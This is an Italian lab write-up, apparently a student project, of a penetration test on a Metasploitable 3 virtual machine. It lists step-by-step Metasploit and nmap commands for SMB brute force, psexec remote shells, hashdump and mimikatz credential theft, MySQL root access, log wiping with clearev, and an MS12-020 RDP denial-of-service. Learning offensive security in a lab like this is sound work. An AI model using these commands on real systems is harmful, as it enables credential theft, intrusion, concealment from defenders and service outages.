







# Cybersecurity Project

## Introduzione
In questo report, esamineremo un'esercitazione pratica di penetration testing in cui abbiamo condotto una serie di attacchi controllati all'interno di un ambiente di test. Abbiamo utilizzato Metasploitable 3 come macchina bersaglio e Kali Linux come macchina attaccante, entrambe configurate per operare sulla stessa rete. Questa configurazione ci ha permesso di simulare un ambiente realistico in cui un attaccante può tentare di compromettere un sistema target.
Lo scopo principale di questa simulazione è accedere al sistema target e rubare quante più credenziali possibili.
L'attacco è stato eseguito seguendo diverse fasi chiave.

## Scansione della rete
In questa fase, abbiamo eseguito una scansione degli indirizzi IP della rete utilizzando Nmap. L'obiettivo è identificare le macchine attive e raccogliere informazioni sui sistemi operativi in esecuzione e sui servizi disponibili.

Dobbiamo identificare il nostro indirizzo IP e la netmask al fine di eseguire una scansione della rete e individuare gli indirizzi IP disponibili per eventuali attacchi. Utilizzando l'indirizzo IP e la netmask, possiamo calcolare il range di indirizzi IP validi nella nostra rete locale, escludendo gli indirizzi non utilizzabili come quelli di broadcast e di rete stessa. Questo ci consente di configurare correttamente gli strumenti di scansione per eseguire una scansione mirata e precisa, concentrando le risorse sui dispositivi e servizi attivi all'interno della nostra rete locale.

### a)Identificazione dell'Indirizzo IP e della Netmask
Seguiamo questi passaggi:
+ Aprire il terminale sulla propria macchina (Kali Linux).
+ Eseguire il comando ```ifconfig``` per determinare l'indirizzo IP e la netmask della macchina.

**Risultato**: L'indirizzo IP è 10.0.2.19 e la netmask è 255.255.255.0.

**Cosiderazioni**: L'indirizzo IP 10.0.2.19 con una netmask di 255.255.255.0 significa che i primi 24 bit dell'indirizzo IP sono dedicati all'identificazione della rete, mentre gli ultimi 8 bit sono destinati agli host all'interno della rete. Utilizzando la notazione CIDR (/24), possiamo rappresentare questa rete come 10.0.2.0/24, il che indica che i primi 24 bit sono la parte di rete fissa e gli ultimi 8 bit possono variare per identificare singoli host all'interno della rete.

### b)Scansione degli Indirizzi IP nella Rete
Adesso andiamo a eseguire una scansione della rete.
+ Aprire il terminale sulla propria macchina (Kali Linux).
+ Digitare ```nmap 10.0.2.0/24```.

**Risultato**: Viene identificato un host attivo con l'indirizzo IP 10.0.2.4.

 

### c)Scansione Completa della Macchina Target
Eseguiamo una scansione completa del target per poter raccogliere quante più informazioni possibili prima di eseguire il nostro attacco
+ Aprire il terminale sulla propria macchina (Kali Linux).
+ Digitare: ```nmap -v -sS -sV -T4 -A 10.0.2.4.```
  - v: Modalità verbosa.
  - sS: (SYN stealth scan): esegue una scansione SYN stealth, che è più silenziosa e meno invasiva.
  - T4: Alta velocità di scansione.
  - A: Abilita la rilevazione del sistema operativo, versioni, script di scansione e traceroute.
  - sV (version detection): tenta di identificare la versione dei servizi in esecuzione sulle porte aperte
  
**Risultato**: La scansione fornisce dettagli sui servizi in esecuzione, le versioni, e ulteriori informazioni sul sistema operativo della macchina target.


#### Riferimenti
+ https://www.redhat.com/sysadmin/quick-nmap-inventory

## Exploit della porta 445
Identificata una macchina con la porta 445 aperta, abbiamo sfruttato un exploit di brute force noto per ottenere le credenziali SMB. Questo è stato realizzato attraverso un attacco di forza bruta e l'utilizzo di un dizionario per gli username e password.

SMB, o Server Message Block, è un protocollo di rete utilizzato principalmente per la condivisione di file, stampanti e altre risorse tra computer in una rete. Il protocollo SMB funziona secondo un modello client-server, dove un dispositivo (il client) invia richieste per accedere a risorse gestite da un altro dispositivo (il server). Una delle caratteristiche principali di SMB è la possibilità di autenticare e autorizzare gli utenti, assicurando che solo le persone autorizzate possano accedere alle risorse condivise.

### a)Creazione del dizionario
Utilizziamo il comando Kali cewl per costruire un nuovo elenco di parole dal contenuto della pagina di configurazione di metasploitable3: 
Digitare nel terminare: ```cewl -d 0 -w metasploitable3.txt https://github.com/rapid7/metasploitable3/wiki/Configuration``` (l'opzione -d 0 indica che i collegamenti ipertestuali non devono essere seguiti)

### b)Esexuzione Exploit
Andiamo ad eseguire l'exploit seguendo questa procedura:

**1)Aprire Metasploit**: Aprire il terminale e digitare il comando per avviare Metasploit:```msfconsole```.

**2)Caricare il modulo SMB Login Scanner**: Una volta aperto Metasploit, caricare il modulo per eseguire un attacco brute force sull'SMB (porta 445): ```use auxiliary/scanner/smb/smb_login```.

**3)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Impostare il file dei nomi utente**: Specificare il percorso del file che contiene i nomi utente: ```set USER_FILE /home/kali/metasploitable3.txt```.

**5)Impostare il file delle password**: Specificare il percorso del file che contiene le password: ```set PASS_FILE /home/kali/metasploitable3.txt.```

**6)Attivare opzione**: Impostare ```set STOP_ON_SUCCESS true``` in modo che l'exploit termini appena trovare delle credenziali valide (cosi genero meno rumore).

**7)Eseguire l'exploit**: Avviare l'attacco brute force utilizzando il comando: ```exploit```.

**RISULTATO**: Abbiamo ottenuto delle credenziali di accesso SMB che in questo caso sono anche quelle di windows.

**Cosiderazioni**: Questo attacco potrebbe generare un sacco di rumore, in quanto verrà visualizzato come un tentativo di accesso non riuscito nei registri eventi. In seguito, penseremo a come pulire questi registri.

     

#### Riferimenti:
+ https://www.geeksforgeeks.org/cewl-tool-creating-custom-wordlists-tool-in-kali-linux/
+ https://www.hackingarticles.in/password-crackingsmb/


## Determinazione utenti locali Sam
Utilizzando le credenziali SMB, abbiamo eseguito un altro exploit per determinare gli utenti locali della macchina bersaglio. Questo ci ha permesso di verificare se gli utenti di SMB coincidessero con gli utenti locali di Windows.
 
**1)Aprire Metasploit**: Aprire il terminale e digitare il comando ```msfconsole``` per avviare Metasploit.

**2)Caricare il modulo**: Una volta aperto Metasploit, caricare il modulo ```auxiliary/scanner/smb/smb_enumusers``` per eseguire una scansione degli utenti locali Sam.

**3)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Impostare il nome utente**:```set SMBUser vagrant``` .

**5)Impostare la password**: ```set SMBPass vagrant```.

**6)Eseguire l'exploit**: Avviare l'attacco brute force utilizzando il comando: ```exploit```.

**RISULTATO**:Abbiamo ottenuto gli utenti locali SAM che possiamo salvare in un file , e si vede che c'è corrispondenza con l'utente "vagrant" di  SMB.

#### Riferimenti:
+ https://www.hackingarticles.in/smb-penetration-testing-port-445/

## Esecuzione di Comandi da Remoto
Utilizzando le credenziali ottenute, abbiamo sfruttato un altro exploit per eseguire comandi da remoto e aprire una sessione Meterpreter, un potente payload di Metasploit che ci ha fornito accesso remoto al sistema.

**1)Aprire Metasploit**: Aprire il terminale e digitare il comando per avviare Metasploit:```msfconsole```.

**2)Caricare il modulo**: Una volta aperto Metasploit, digitare: ``` use exploit/windows/smb/psexec```.

**3)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Impostare il nome utente**:```set SMBUser vagrant``` .

**5)Impostare la password**: ```set SMBPass vagrant```.

**6)Eseguire l'exploit**: Avviare l'attacco utilizzando il comando: ```exploit```.

**RISULTATO**: Abbiamo ottenuto una sessione meterpeter sulla macchina.

 

## Rubare le credenziali SAM
Una volta ottenuto l'accesso, abbiamo utilizzato l'estensione hashdump di Meterpreter per rubare gli hash delle password locali del sistema.
Digitare  ```hashdump``` nella sessione meterpreter e salvare le password su file credenzialiSAM.txt.

#### Considerazioni
Posso conservare queste password per tentare di indovinare le password offline e, eventualmente, effettuare un movimento laterale o accedere a qualche sito web. Inoltre, posso conservare queste credenziali per tentare un attacco pass-the-hash.

## Utilizzo di Kiwi (mimikatz)
Successivamente, abbiamo utilizzato Mimikatz, uno strumento avanzato di post-exploitation, per estrarre ulteriori dati sensibili e credenziali dalla memoria del sistema compromesso.
Questo tool consente di recuperare tutte le password in formato hash, un'operazione che avevamo già eseguito in precedenza. Pertanto, il nostro obiettivo ora è recuperare le password in chiaro di tutti gli utenti che si sono autenticati da quando la macchina è stata accesa l'ultima volta, senza dover procedere con l'estrazione offline delle password.

**1)Elencare processi**: Digitare ```ps``` nella sessione meterpeter per visualizzare tutti i processi attivi e sceglierne uno con i giusti privilegi.

**2)Spostarsi nel processo**: Digitare ```migrate 'pid scelto'``` nella sessione meterpeter. (es scegliamo il pid del processo lssa che ha privilegi elevati).

**3)Aprire Mimikatz**: Digitare ```load kiwi``` nella sessione meterpeter.

**4)Rubare le credenziali**: Digitare ```creds_all``` nella sessione meterpeter per ottenere le credenziali disponibili degli utenti che si sono loggati.

 

#### Osservazione
Per qualche motivo eseguendo meterpeter su *powershell.exe* kiwi ovvero mimikatz non funziona (osservando i processi la cosa che cambia e l'archittetura), quindi spostiamo la sessione su un altro processo.

#### Considerazioni
Abbiamo ottenuto delle credenziali valide per gli utenti loggati e per l'utente sshd_server per il servizio di OpenSSHd.

## Accesso MySql
Abbiamo cercato di accedere al server MySQL per rubare ulteriori credenziali eseguendo un brute force con il dizionario utilizzato in precedenza.
Nella prima fase di scansione della rete, abbiamo rilevato che sulla porta 3306 è in esecuzione un database MySQL. Poiché il nostro obiettivo è ottenere il maggior numero possibile di credenziali, abbiamo deciso di prenderlo di mira.
Questa volta invece di utilizzare metasploit proviamo a utilizzare gli script NSE di nmap per verificare se è presente qualche vulnerabilità o impostazione di default.

Eseguiamo ```nmap --script all -p3306 10.0.2.4``` per effettuare la scansione.

**RISULTATO**: Dopo l' esecuzione dello script, si può vedere che è presente l' account di default *root* senza password.

 

A questo punto seguiamo questa procedura per ottenere le credenziali disponibli dal database:

**1)** Per accedere a mysql da remoto digitare  ```mysql -h 10.0.2.4 -u root -p``` nel terminale.

**2)** Digitare ```SHOW DATABASES;``` per vedere i database disponibili.

**3)** Digitare ```USE WORDPRESS;``` per selezionare il database di wordpress (potrei trovare delle credenziali).

**4)** Digitare ```SELECT * FROM wp_users;` per cercare informazioni utili in questa tabella.

**5)** Salviamo le credenziali su un file nel nostro pc.

**RISULTATO**: Abbiamo ottenuto le credenziali di wordpress.




## Eliminazione tracce
Una volta eseguito l'attacco, abbiamo cercato di eliminare quante più tracce possibili per ridurre le possibilità di rilevamento e investigazione.

+ **Eliminazione logs**: Eliminare i logs digitando il comando: ```clearev``` nella sessione meterpreter.

## Attacco DOS
Infine, abbiamo eseguito un attacco DoS (Denial of Service) sfruttando la vulnerabilità *CVE-2012-0002* che causa un buffer overflow. Questo è stato fatto per sviare l'attenzione del difensore dall'attacco effettivo, concentrando le sue risorse su questo evento.
Questo modulo sfrutta la vulnerabilità RDP MS12-020. Il difetto può essere riscontrato nel modo in cui viene gestito il pacchetto T.125 ConnectMCSPDU nel campo maxChannelIDs, che risulterà nell'utilizzo di un puntatore non valido, causando quindi una condizione di negazione del servizio. 

**1)Aprire Metasploit**: Aprire il terminale e digitare il comando per avviare Metasploit:```msfconsole```.

**2)Caricare il modulo**: Una volta aperto Metasploit, caricare il modulo ```auxiliary/scanner/rdp/ms12_020_check``` per vedere se la macchina è vulnerabile a questo attacco.

**3)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Lanciare il modulo**: eseguire ```run``` .

Se il la macchina è vulnerabile proseguire.

**5)Caricare il modulo bluekeep**: Una volta aperto Metasploit, caricare il modulo ```dos/windows/rdp/ms12_020_maxchannelids```.

**6)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Lanciare il modulo**: eseguire ```run``` .

##### Riferimenti:
+ https://tremblinguterus.blogspot.com/2020/11/metasploitable-3-windows-walkthrough_88.html?m=1
+ https://www.rapid7.com/db/modules/auxiliary/dos/windows/rdp/ms12_020_maxchannelids/

## Conclusioni
Il penetration test su Metasploitable 3 con Kali Linux ha rivelato diverse vulnerabilità critiche. La scansione della rete ha identificato servizi aperti, tra cui SMB e MySQL, che sono stati sfruttati per ottenere accesso non autorizzato. Utilizzando attacchi brute force, abbiamo ottenuto credenziali SMB e accesso remoto tramite Meterpreter. Inoltre, l'utilizzo di strumenti come Mimikatz ha permesso di estrarre ulteriori credenziali dalla memoria del sistema.

Il test ha dimostrato l'importanza di implementare password robuste, aggiornare regolarmente i sistemi, migliorare la configurazione di sicurezza dei servizi e adottare efficaci pratiche di monitoraggio. Migliorando questi aspetti, si può significativamente ridurre la superficie di attacco e proteggere meglio il sistema da intrusioni non autorizzate.
